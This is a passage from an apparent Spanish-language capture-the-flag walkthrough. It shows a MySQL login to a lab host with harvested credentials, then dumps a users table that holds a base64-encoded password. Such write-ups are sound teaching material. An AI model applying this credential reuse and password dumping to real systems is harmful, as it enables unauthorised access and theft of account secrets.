 ## Ganamos acceso
Donde el parámetro -h corresponde al host -u  al user -p a la contraseña
Ahora nos podemos conectar a **MySQL** debido a que conocemos el user y su contraseña.
```bash
❯ mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 47
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0,172 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0,396 sec)

MySQL [whackywidget]> SELECT * FROM users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0,375 sec)

MySQL [whackywidget]> 

```
